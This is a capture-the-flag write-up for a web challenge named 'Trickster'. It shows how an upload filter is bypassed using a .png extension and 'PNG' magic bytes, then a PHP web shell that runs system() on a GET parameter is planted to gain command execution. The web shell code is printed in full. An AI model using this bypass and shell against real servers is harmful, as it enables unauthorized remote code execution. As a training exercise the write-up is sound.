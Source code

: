Trickster |  | 300 points

![image](https://github.com/msthione/ctfs/assets/99500478/22a310c7-fcb0-4ff1-bf70-077ff808187c)


As stated in the description, there is a web page where we can upload image files.

![image](https://github.com/msthione/ctfs/assets/99500478/337dcf73-21f3-4670-b6ce-5653d7a923b5)

As always I checked the <code>/robots.txt</code>

![image](https://github.com/msthione/ctfs/assets/99500478/9f24c6f2-178a-432d-9dec-9ec8df5148f0)

There are a .txt file and a folder which are disabled. Let's check 'em:

<code>/instructions.txt</code>
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

And we don't have direct access to /uploads/ folder

![image](https://github.com/msthione/ctfs/assets/99500478/96971bd2-9138-4197-ab8e-cc43a7d73221)

I made an empty request to be able to intercept it with Burp Suite and sent to repeater

![image](https://github.com/msthione/ctfs/assets/99500478/381ed4dd-60cb-4287-98f6-2c31b5171dd6)

According to <code>/instructions.txt</code> the png file must have a .png extention and 'PNG' in the first few bytes. set and sent it

![image](https://github.com/msthione/ctfs/assets/99500478/abc31e71-3ade-4bf0-92c0-3fa6036cff93)

When i checked the /uploads/test.png and got a image

![image](https://github.com/msthione/ctfs/assets/99500478/fef8f732-24fc-4f02-a260-222bab59a819)

In this point I wanted to try RCE and used that code from https://www.revshells.com/ 
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

to be able to bypass the validation I left .png in the name and "PNG" in the payload as first bytes of the file and sent it 

![image](https://github.com/msthione/ctfs/assets/99500478/6048eb36-d89d-4691-a01b-8e1cc18d3aa8)

It was succeed, let's try to access the page which we just uploaded

![image](https://github.com/msthione/ctfs/assets/99500478/28ea235d-20bb-4750-ae5b-d35c45e369f1)

It worked. It's time to find the flag. 

![image](https://github.com/msthione/ctfs/assets/99500478/76255b75-29d3-43c0-a6f7-8555b8a404ec)

I think we found it. :) let's read it...
![image](https://github.com/msthione/ctfs/assets/99500478/195d6eeb-af1e-40d9-bd43-8a429090a388)

